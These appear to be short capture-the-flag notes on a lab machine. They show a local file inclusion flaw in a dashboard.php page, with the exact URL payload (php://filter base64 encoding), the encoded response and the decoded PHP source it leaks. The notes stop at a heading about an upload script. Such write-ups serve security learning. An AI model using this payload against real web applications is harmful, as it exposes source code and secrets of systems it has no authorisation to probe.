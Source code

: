 # lfi vuln on dashboard.php
## php://filter/convert.base64-encode/resource=timestamp

```
https://administrator1.friendzone.red/dashboard.php?image_id=e.gif&pagename=php://filter/convert.base64-encode/resource=timestamp
```

- This encodes the php in base64 not allowing it to be execused and instead be written out on the webpage which we can copy and decode from our pc

```
PD9waHAKCgokdGltZV9maW5hbCA9IHRpbWUoKSArIDM2MDA7CgplY2hvICJGaW5hbCBBY2Nlc3MgdGltZXN0YW1wIGlzICR0aW1lX2ZpbmFsIjsKCgo/Pgo=
```
- Returns
Timestamp.php
```
<?php


$time_final = time() + 3600;

echo "Final Access timestamp is $time_final";


?>

```
## ../uploads/upload 
### Here we can see the upload script 

